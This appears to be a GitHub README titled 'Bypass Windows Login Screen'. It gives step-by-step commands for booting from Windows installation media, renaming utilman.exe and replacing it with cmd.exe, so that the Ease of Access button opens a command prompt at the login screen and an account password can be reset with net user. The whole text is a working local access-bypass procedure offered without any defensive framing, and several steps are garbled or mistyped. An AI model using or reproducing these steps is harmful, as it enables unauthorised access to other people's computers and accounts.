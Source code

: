 <h1 align="center">Bypass Windows Login Screen</h1>


## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and hit Shift + 10

2. X: \Sources>

Input
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>

Input
```bash
C:
#the directory which comtains your system files
```


4. C: \>

Input
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>

Input
```bash
D:
```


6. D: \>

Input
```bash
cd Windows
```


7. D: \Windows>

Input
```bash
cd System32
```


8. D: \Windows\System32>

Input
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>

Input
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user may password
